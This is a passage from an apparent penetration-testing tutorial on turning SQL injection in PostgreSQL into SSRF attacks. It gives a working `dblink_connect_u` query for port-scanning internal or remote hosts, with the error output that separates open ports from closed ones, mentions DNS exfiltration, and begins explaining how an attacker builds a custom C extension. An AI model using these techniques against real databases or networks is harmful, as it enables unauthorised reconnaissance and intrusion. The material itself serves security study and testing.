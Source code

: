 All functions that <a href="https://www.postgresql.org/docs/9.1/libpq-connect.html" target="_blank" rel="noopener noreferrer">support using a `connstr` string in the function call can be used to set the remote host and port for the database connection</a>. Although, you cannot control the data that is being sent to the remote server, you can identify what ports are open.

To abuse this function to port scan internal servers or servers on the Internet, use the following syntax

`CREATE extension dblink;`
`SELECT dblink_connect_u('host=scanme.nmap.org port=22 sslmode=disable');`

For open ports, Postgres will respond with the following or a variant of

```text
ERROR:  could not establish connection
DETAIL:  expected authentication request from server, but received S
```

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/6.png)

For closed ports, a message like the following is shown

```text
ERROR:  could not establish connection
DETAIL:  could not connect to server: Connection refused
	Is the server running on host "scanme.nmap.org" (45.33.32.156) and accepting
	TCP/IP connections on port 5000?
could not connect to server: Network is unreachable
	Is the server running on host "scanme.nmap.org" (2600:3c01::f03c:91ff:fe18:bb2f) and accepting
	TCP/IP connections on port 5000?
```

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/7.png)

The `dblink` functions are also often used to perform SQL Injection data exfiltration attacks over DNS.

### Using custom Extensions

Custom extensions are a very cool way of adding functionality to Postgres. You can create your own extension and add them to Postgres but that involves you <a href="https://www.percona.com/blog/2019/04/05/writing-postgresql-extensions-is-fun-c-language/">writing a standard Makefile, a control file, a library and then placing the library in the Postgres `$libdir` (which on 10 is at `/usr/lib/postgresql/10/lib`)</a>.

Alternatively, you can write the extension and load it at runtime using `CREATE FUNCTION` instead of loading it using `CREATE EXTENSION`.

To build your own custom extension as an attacker, you need, as a bare minimum, a Makefile, a control file and the C program containing the extension code. You will need the header files, the extension build tools and the database cluster manager which can be setup with

```bash
sudo apt-get install libpq-dev
sudo apt-get install postgresql-server-dev-all
sudo apt-get install postgresql-common
```
